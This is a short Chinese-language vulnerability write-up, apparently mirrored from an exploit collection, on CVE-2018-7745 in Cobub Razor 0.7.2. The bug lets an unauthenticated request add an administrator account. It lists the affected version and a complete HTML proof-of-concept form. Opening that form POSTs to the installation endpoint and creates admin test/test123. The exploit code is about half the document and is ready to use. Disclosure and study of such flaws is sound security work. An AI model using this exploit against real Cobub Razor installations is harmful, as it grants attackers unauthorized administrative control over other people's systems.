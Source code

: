 # （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户

> 原文：[http://book.iwonder.run/0day/Cobub Razor/CVE-2018-7745.html](http://book.iwonder.run/0day/Cobub Razor/CVE-2018-7745.html)

## 一、漏洞简介

Cobub Razor 0.7.2 越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为 html 页面，打开页面将增加 test/test123 的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

